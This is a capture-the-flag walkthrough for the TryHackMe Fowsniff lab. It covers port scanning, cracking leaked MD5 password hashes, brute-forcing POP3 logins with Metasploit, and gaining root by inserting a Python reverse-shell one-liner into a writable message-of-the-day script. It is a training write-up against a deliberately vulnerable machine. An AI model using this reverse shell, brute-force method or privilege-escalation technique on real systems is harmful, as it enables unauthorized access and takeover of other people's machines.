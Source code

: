 Room: [Fowsniff CTF](https://tryhackme.com/room/ctf)

Difficulty: Easy

Overview: On-going project - portscanning hashes bruteforcing pop3 metasploit

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start by enumerating all open ports on the remote system and to do so we can use “nmap”:

```
nmap -sV -sC -p- fowsniff.thm -oN nmap.txt

-sV         → Probe open ports to determine service
-sC         → Scan using the default set of scripts
-p-          → Scan all ports
fowsniff.thm  → ip address of the room (added the ip to /etc/hosts and named it)
-oN         → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/166565008-389610f8-322e-4664-863a-c1e9ec04125c.png)

There are four open ports on the system:

22 → OpenSSH 7.2p2 Ubuntu

80 → Apache httpd 2.4.18

110 → Dovecot pop3d

143 → Dovecot imapd

Since there is an apache webserver running in the system we can use "Gobuster" to search for hidden directories or files in http servers:

![image](https://user-images.githubusercontent.com/76821053/166566478-31c90dd0-f9fa-49b7-ad12-2373e6c3f384.png)

When analysing the results "Gobuster" found a security.txt file that we can access.

![image](https://user-images.githubusercontent.com/76821053/166566690-190a443c-07cf-4192-ad14-1106a39b6ef5.png)

This server was hacked by BigN1nj4! who left a teaser on the website.

Now, the room gave us a hint to look for information using google. A little later i found that the hacker leaked information on [PASTEBIN](https://pastebin.com/NrAqVeeX).

![image](https://user-images.githubusercontent.com/76821053/166566743-734f9fb9-bd15-4b67-b918-d7f297bac6ed.png)

He leaked email and their respective passwords from their databases. The hashes are encrypted in MD5 and to decrypt them we can use sites like [hashkiller](https://hashkiller.io/listmanager) or [hashes.com](hashes.com/en/decrypt/hash).

![image](https://user-images.githubusercontent.com/76821053/166566776-080788b0-f88a-4eae-909f-708dbb0381ec.png)

After decrypting all MD5 hashes i have created two text files, one with the name of the users found and another with the decrypted passwords.

The purpose is to try to brute force the pop3 login service mail with the dictionaries that we have just created from the two text files.

To find a valid login we can use diferent tools but in this case we will use "metasploit".

```
msfconsole

search pop3  - To search for pop3 related content

use auxiliary/scanner/pop3/pop3_login   - To select the option we want to use
```

![image](https://user-images.githubusercontent.com/76821053/166566786-731828e6-2214-475f-bbf0-2250f6651b5b.png)

```
options  -  To list the module options that we need to set to do our brute force 
```
We have to set PASS_FILE and USER_FILE to the path of our text files and set the RHOSTS to the ip we want to target.

![image](https://user-images.githubusercontent.com/76821053/166566802-9c2d140a-4738-43ac-b074-b1961c60ea39.png)

To run this module just hit run

```
run
```

![image](https://user-images.githubusercontent.com/76821053/166566824-ba1078f4-2aa8-42fd-9d09-88b61cd8b0df.png)

Metaspoit attack found a valid user and respective password. With these credentials we have accessed the pop3 email service hosted at port 110.

To access the email service we can use "Telnet". In this website you can find information "Telnet" about commands https://www.shellhacks.com/retrieve-email-pop3-server-command-line/

```
telnet 10.10.125.75 110

USER seina 

PASS *******

LIST     - Lists all messages

RETR 1   - Retrieve first message

RETR 2   - Retrives second message
```

![image](https://user-images.githubusercontent.com/76821053/166566847-a75b12cc-aff6-426a-9a04-a431d03db427.png)

In the first message there is ssh credentials. They belong to user "backsteen".

With them we can connect to the target machine through ssh:

```
ssh backsteen@fowsniff.thm
```

![image](https://user-images.githubusercontent.com/76821053/166566877-f6437936-4876-428f-b5bd-d136916aa6cf.png)

When enumerating the system i searched for any files that can be run by that group users:

```
find / -group users -type f -exec ls -la {} 2>/dev/null \;

```

![image](https://user-images.githubusercontent.com/76821053/166566901-07448446-f980-4184-ba6a-20aae12e5dd0.png)

Found that users group have read/write permissions of a bash script called cube.sh.

![image](https://user-images.githubusercontent.com/76821053/166566918-dfa97f58-bc9f-43d9-81de-23cb4398adbc.png)

After reading the contents of cube.sh we can recognize that this prints the motd (message of the day) that we receive after connecting through ssh.

If we check the directory /etc/update-motd.d/ and look into the executables, the file “00-header” runs the cube.sh script with root permissions.

![image](https://user-images.githubusercontent.com/76821053/166566946-76373e54-79b5-48c1-bd7b-3e12788de657.png)

This is our way to get a privilege escalation in this machine. Since we have group permissions to write cube.sh script we can try and get a reverse shell by including a python3 reverse shell payload.

We need to edit the cube.sh file with "nano" or "vim" and add the python reverse shell.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Pay attention to the syntax because you need to make a little change. Your ip will be between comas.

![image](https://user-images.githubusercontent.com/76821053/166566976-9d18124e-a0e7-41d2-b4c4-a40a231f04a8.png)

Now, to make it work we need to setup a netcat listener and restart the ssh connection to trigger the motd welcome message, because when we connect the the file “00-header” will run the cube.sh script with root permissions and it will run our reverse shell.

![image](https://user-images.githubusercontent.com/76821053/166567250-877a7eed-83b5-4f6a-b846-c0b351b966a6.png)

Success we are now root!!

Just for proof of concept we can print the root flag!

![image](https://user-images.githubusercontent.com/76821053/166567045-7163c720-eba6-496b-bfaf-8e3d8667c762.png)









